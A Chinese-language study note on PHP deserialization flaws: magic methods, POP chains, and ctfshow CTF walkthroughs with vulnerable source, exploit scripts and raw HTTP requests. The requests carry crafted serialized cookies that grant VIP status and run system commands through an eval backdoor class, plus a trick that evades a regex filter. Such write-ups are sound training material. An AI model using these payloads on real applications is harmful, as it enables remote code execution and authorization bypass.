


## 序列化与反序列化

序列化：对象转换为数组或字符串等格式

反序列化：将数组或字符串等格式转换成对象

serialize() //将对象转换成一个字符串

unserialize() //将字符串还原成一个对象

***反序列化造成漏洞由后端的危险方法决定***

## 常见php魔术方法

```
__construct(): //当对象new的时候会自动调用
__destruct()：//当对象被销毁时会被自动调用
__sleep(): //serialize()执行时被自动调用
__wakeup(): //unserialize()时会被自动调用
__invoke(): //当尝试以调用函数的方法调用一个对象时会被自动调用
__toString(): //把类当作字符串使用时触发
__call(): //调用某个方法;若不存在,则会去调用__call函数。
__callStatic(): //在静态上下文中调用不可访问的方法时触发
__get(): //读取对象属性时,若不存在，则会调用__get函数
__set(): //设置对象的属性时,若不存在,则调用__set函数。
__isset(): //在不可访问的属性上调用isset()或empty()触发
__unset(): //在不可访问的属性上使用unset()时触发
__set_state()，调用var_export()导出类时，此静态方法会被调用
__clone()，当对象复制完成时调用
__autoload()，尝试加载未定义的类
__debugInfo()，打印所需调试信息
```

## DEMO

```
<?php
class B{
public $cmd='';
public function __destruct(){
system($this->cmd);
}
}

//函数引用，无对象创建触发魔术方法
unserialize($_GET['x']);
```
## pop链

POP：面向属性编程（Property-Oriented Programing）常用于上层语言构造特定调用链的方法，序列化攻击都在PHP魔术方法中出现可利用的漏洞，因自动调用触发漏洞，但如关键代码没在魔术方法中，而是在一个类的普通方法中。这时候就可以通过构造POP链寻找相同的函数名将类的属性和敏感函数的属性联系起来。

- 反序列化常见起点（见图）

- 反序列化常见跳板（见图）

- 反序列化常见终点（见图）

## 黑盒

反序列化漏洞一般是白盒代码审计发现，黑盒发现极少

burplab

登陆账户解码cookie值发现是一串序列化字符串，修改布尔值，造成越权




## 白盒

ctfshow

```
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-12-02 17:44:47  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-12-02 19:29:02  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
error_reporting(0);  
highlight_file(__FILE__);  
include('flag.php');  
  
class ctfShowUser{  
    public $username='xxxxxx';  
    public $password='xxxxxx';  
    public $isVip=false;  
  
    public function checkVip(){  
        return $this->isVip;  
    }  
    public function login($u,$p){  
        return $this->username===$u&&$this->password===$p;  
    }  
    public function vipOneKeyGetFlag(){  
        if($this->isVip){  
            global $flag;  
            echo "your flag is ".$flag;  
        }else{  
            echo "no vip, no flag";  
        }  
    }  
}  
  
$username=$_GET['username'];  
$password=$_GET['password'];  
  
if(isset($username) && isset($password)){    $user = unserialize($_COOKIE['user']);      
    if($user->login($username,$password)){  
        if($user->checkVip()){            $user->vipOneKeyGetFlag();  
        }  
    }else{  
        echo "no vip,no flag";  
    }  
}
```

wp

```
<?php  
  
class ctfShowUser{  
    public $username='xxxxxx';  
    public $password='xxxxxx';  
    public $isVip=true;  
  
}  
  
echo urlencode(serialize(new ctfShowUser()));
```

```
GET /?username=xxxxxx&password=xxxxxx HTTP/1.1
Host: 30309ff1-1122-4b6c-b525-defffab5198e.challenge.ctf.show
Sec-Ch-Ua: "Google Chrome";v="143", "Chromium";v="143", "Not A(Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Cookie: user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: keep-alive
```

```
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-12-02 17:44:47  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-12-02 19:29:02  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
error_reporting(0);  
highlight_file(__FILE__);  
include('flag.php');  
  
class ctfShowUser{  
    public $username='xxxxxx';  
    public $password='xxxxxx';  
    public $isVip=false;  
  
    public function checkVip(){  
        return $this->isVip;  
    }  
    public function login($u,$p){  
        return $this->username===$u&&$this->password===$p;  
    }  
    public function vipOneKeyGetFlag(){  
        if($this->isVip){  
            global $flag;  
            if($this->username!==$this->password){  
                    echo "your flag is ".$flag;  
              }  
        }else{  
            echo "no vip, no flag";  
        }  
    }  
}  
  
$username=$_GET['username'];  
$password=$_GET['password'];  
  
if(isset($username) && isset($password)){    $user = unserialize($_COOKIE['user']);      
    if($user->login($username,$password)){  
        if($user->checkVip()){            $user->vipOneKeyGetFlag();  
        }  
    }else{  
        echo "no vip,no flag";  
    }  
}
```

wp

```
<?php  
  
class ctfShowUser{  
    public $username='xxxxkxx';  
    public $password='xkxxxxx';  
    public $isVip=true;  
  
}  
  
echo urlencode(serialize(new ctfShowUser()));
```

```
GET /?username=xxxxkxx&password=xkxxxxx HTTP/1.1
Host: 8c55d5bc-a027-4a0f-bd46-671bc3a3d9cf.challenge.ctf.show
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="143", "Chromium";v="143", "Not A(Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Cookie: user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A7%3A%22xxxxkxx%22%3Bs%3A8%3A%22password%22%3Bs%3A7%3A%22xkxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://8c55d5bc-a027-4a0f-bd46-671bc3a3d9cf.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: keep-alive
```

```
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-12-02 17:44:47  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-12-02 20:33:07  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
error_reporting(0);  
highlight_file(__FILE__);  
  
class ctfShowUser{  
    private $username='xxxxxx';  
    private $password='xxxxxx';  
    private $isVip=false;  
    private $class = 'info';  
  
    public function __construct(){        $this->class=new info();  
    }  
    public function login($u,$p){  
        return $this->username===$u&&$this->password===$p;  
    }  
    public function __destruct(){        $this->class->getInfo();  
    }  
  
}  
  
class info{  
    private $user='xxxxxx';  
    public function getInfo(){  
        return $this->user;  
    }  
}  
  
class backDoor{  
    private $code;  
    public function getInfo(){  
        eval($this->code);  
    }  
}  
  
$username=$_GET['username'];  
$password=$_GET['password'];  
  
if(isset($username) && isset($password)){    $user = unserialize($_COOKIE['user']);    $user->login($username,$password);  
}
```

wp

```
<?php  
  
class ctfShowUser{  
    private $username='xxxxxx';  
    private $password='xxxxxx';  
    private $isVip=true;  
    private $class = 'backDoor';  
  
    public function __construct(){  
        $this->class=new backdoor();  
    }  
  
}  
class backDoor{  
    private $code='system("cat flag.p*");';  
}  
  
echo urlencode(serialize(new ctfShowUser()));
```

```
GET /?username=xxxxxx&password=xxxxxx HTTP/1.1
Host: 80cc7576-2c70-40f4-89e2-93c706eea0f8.challenge.ctf.show
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="143", "Chromium";v="143", "Not A(Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Cookie: user=O%3A11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22%00ctfShowUser%00username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A21%3A%22%00ctfShowUser%00password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A18%3A%22%00ctfShowUser%00isVip%22%3Bb%3A1%3Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A22%3A%22system%28%22cat+flag.p%2A%22%29%3B%22%3B%7D%7D
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://80cc7576-2c70-40f4-89e2-93c706eea0f8.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: keep-alive
```

```
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-12-02 17:44:47  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-12-02 21:38:56  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
error_reporting(0);  
highlight_file(__FILE__);  
  
class ctfShowUser{  
    public $username='xxxxxx';  
    public $password='xxxxxx';  
    public $isVip=false;  
    public $class = 'info';  
  
    public function __construct(){        $this->class=new info();  
    }  
    public function login($u,$p){  
        return $this->username===$u&&$this->password===$p;  
    }  
    public function __destruct(){        $this->class->getInfo();  
    }  
  
}  
  
class info{  
    public $user='xxxxxx';  
    public function getInfo(){  
        return $this->user;  
    }  
}  
  
class backDoor{  
    public $code;  
    public function getInfo(){  
        eval($this->code);  
    }  
}  
  
$username=$_GET['username'];  
$password=$_GET['password'];  
  
if(isset($username) && isset($password)){  
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){        $user = unserialize($_COOKIE['user']);  
    }    $user->login($username,$password);  
}
```

wp

```
<?php

class ctfShowUser{

public $class = 'backDoor';
public function __construct(){
$this->class=new backDoor();
}
}

class backDoor{
public $code="system('tac flag.php');";
}

$a=serialize(new ctfShowUser());
$b=str_replace(':11',':+11',$a);
$c=str_replace(':8',':+8',$b);
echo urlencode($c);

?>
```